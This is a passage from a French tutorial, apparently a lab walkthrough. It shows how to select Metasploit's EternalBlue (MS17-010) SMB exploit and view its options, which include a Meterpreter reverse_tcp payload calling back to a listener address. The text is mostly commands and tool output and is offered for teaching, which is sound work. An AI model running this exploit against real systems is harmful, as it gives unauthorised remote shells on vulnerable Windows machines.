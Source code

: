 On choisit d'utiliser le premier module de la liste.
Pour cela, nous pouvons taper au choix les commandes suivantes : 
```sh
use 0 # où 0 est la colonne '#' dans les résultats
```
OU en utilisant le chemin vers l'exploit :
```sh
use exploit/windows/smb/ms17_010_eternalblue
```

Il faut maintenant configurer le module afin qu'il trouve notre cible et qu'il nous restitue un shell.
Pour cela, il faut regarder les options : 
```sh
show options
```

Résultats :
```sh
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                             loit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                              Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
                                             t machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Serve
                                             r 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.57.129   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

```
